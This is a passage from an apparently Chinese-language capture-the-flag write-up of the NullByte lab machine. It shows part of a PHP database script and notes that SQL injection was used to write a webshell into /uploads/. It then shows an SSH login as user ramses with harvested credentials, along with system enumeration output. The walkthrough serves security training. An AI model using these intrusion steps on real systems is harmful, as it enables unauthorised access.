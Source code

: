     mysql_select_db('seth');
    $retval = mysql_query( $sql, $conn );
    if(! $retval )
    {
      die('Could not get data: ' . mysql_error());
    }
    while($row = mysql_fetch_array($retval, MYSQL_ASSOC))
    {
        echo "EMP ID :{$row['id']}  <br> ".
             "EMP NAME : {$row['user']} <br> ".
             "EMP POSITION : {$row['position']} <br> ".
             "--------------------------------<br>";
    } 
    echo "Fetched data successfully\n";
    mysql_close($conn);
    
    ?>
    
    ```

-   成功登陆`phpmyadmin`页面

-   ![image-20230729131622659](https://raw.githubusercontent.com/r0o983/images/main/image-20230729131622659.png)

### sql注入3

通过sql注入直接写入大马，写入到`/uploads/`文件夹下。

## 获取初始权限

-   使用刚才获取的用户名以及密码尝试进行ssh登陆

-   ```shell
    root@567701cfe966:/var/www/html/sql-connections# ssh ramses@192.168.2.147 -p 777
    ramses@192.168.2.147's password: 
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Jul 12 21:49:51 2023 from 192.168.2.128
    ramses@NullByte:~$ uname -a
    Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
    ramses@NullByte:~$  ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
        link/ether 00:0c:29:5d:65:77 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.147/24 brd 192.168.2.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe5d:6577/64 scope link 
           valid_lft forever preferred_lft forever
    ramses@NullByte:~$ whoami
    ramses
    